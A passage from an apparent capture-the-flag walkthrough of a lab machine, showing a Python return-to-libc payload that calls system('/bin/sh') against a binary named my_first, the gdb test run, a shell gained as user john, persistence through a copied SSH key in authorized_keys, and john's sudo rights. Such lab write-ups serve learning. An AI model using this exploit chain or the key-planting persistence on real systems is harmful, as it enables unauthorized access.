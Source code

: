 ```python
# we return to the stack at the call to system()
buf += "AA"                             # removed by add esp,0x44
buf += struct.pack("<I", 0x40069060)    # system()
buf += struct.pack("<I", 0xfeedface)    # fake retaddr for system()
buf += struct.pack("<I", 0x4018bb78)    # /bin/sh

print buf
```

I ran it again in gdb and it worked:

```text
gdb-peda$ r < in.txt
.
.
.
AA`�@����x�@
[New process 29256]
process 29256 is executing new program: /bin/dash
[New process 29257]
process 29257 is executing new program: /bin/dash
[Inferior 3 (process 29257) exited normally]
Warning: not running or target is remote
```

Time to get that shell: 

```
mike@pegasus:~$ whoami
mike
mike@pegasus:~$ (cat ./in.txt ; cat) | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ��   
.
.
.
AA`�@����x�@
whoami
john
```

Great, I got a shell as user john! I copied my SSH key over to john's .ssh/authorized_keys file and logged in via SSH. I checked john's sudo rights and found that he could run /usr/local/sbin/nfs without a password: 

```
john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
```
